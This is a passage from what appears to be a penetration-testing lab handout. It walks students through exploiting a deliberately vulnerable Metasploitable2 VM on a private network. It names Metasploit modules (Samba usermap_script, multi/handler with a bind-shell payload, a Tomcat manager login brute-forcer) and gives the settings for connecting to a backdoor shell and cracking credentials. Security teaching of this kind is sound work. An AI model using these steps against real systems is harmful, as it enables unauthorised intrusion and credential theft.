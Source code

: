 
        Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

    This returns just the exploit that we found earlier. If we examine its `info`, we indeed see that its description does include
    "3.0.20", explaining how it was found via `search`:

        Description:
          This module exploits a command execution vulnerability in Samba
          versions 3.0.20 through 3.0.25rc3 when using the non-default
          "username map script" configuration option. By specifying a username
          containing shell meta characters, attackers can execute arbitrary
          commands. No authentication is needed to exploit this vulnerability
          since this option is used to map usernames prior to authentication!


Remember, attackers only need to get in _once_ in order to proceed. Defenders have
it harder in this regard -- they must plug all possible attack vectors.

<div class='alert alert-info'><strong>Tip!</strong> Remember, you can always
google version names along with terms like "exploit" and "msfconsole" to see
what comes up.</div>


## Exploitation Exploration: On Your Own

In this section, you will exploit three of <span class='badge badge-info'>the following additional service</span>.

<div class='alert alert-warning'><strong>Oh no!</strong> This section is a vague
as they come. But there still are hints.</div>

Now, exploit three additional services from the following list, using what you
learned above.

* 1099 \| RMIRegistry
    * set `srvhost` to kali's infosec-net ip address.
* 1524 \| bindshell
    * this is a backdoor shell set up on Metasploitable2, just waiting for a connection…
    * easy way, skip Metasploit and use `netcat` (`nc`)
        * Read basic docs on `nc` -- flex your self-learning muscle!
    * Metasploit way:
        * `use exploit/multi/handler`
        * `set payload generic/shell_bind_tcp`
        * `set lport 1524`
        * `set rhost 192.168.56.102`
* 6667 \| unrealircd
    * to get the precise version number, connect to the IRC server running on metasploitable2.
        * `apt install hexchat`
        *  run `hexchat`
        * Networks > Add > (name it whatever) > Edit >
          replace `newserver/6667` with `192.168.56.102/6667`
        * connect
        * precise version number will be reported by the server in the chat window
        * search msf db for an exploit for the server name/version
* 8180 \| tomcat
    * tomcat is running on port 8180
    * view by browsing to `192.168.56.102:8180`
    * need manager creds 192.168.56.102:8180/manager/html
    * bruteforce tomcat manager username:password with auxiliary/scanner/http/tomcat_mgr_login
    * once you have the tomcat mgr username:password, exploit (`search type:exploit name:tomcat`)
    * set httpusername and httppassword
    * don't forget to set port
